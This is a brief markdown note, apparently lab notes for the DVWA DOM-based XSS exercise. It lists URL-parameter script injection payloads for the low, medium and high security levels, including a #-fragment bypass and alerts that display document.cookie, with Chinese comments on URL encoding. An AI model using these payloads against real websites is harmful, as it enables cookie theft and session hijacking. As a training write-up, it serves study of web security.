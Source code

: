 # XSS Dom
## Level Low Security
```javascript
default=English<script>alert("XSS")</script>
default=English<script>alert(document.cookie)</script>
```

## Level Medium Security
```javascript
//编写完成后复制并且粘贴到一个新的窗口打开链接。字符会自动转换为url编码
default=English#<script>alert("XSS")</script> 
```

## Level Hight Security
```javascript
//编写完成后复制并且粘贴到一个新的窗口打开链接。字符会自动转换为url编码
default=English#<script>alert(document.cookie)</script>
```
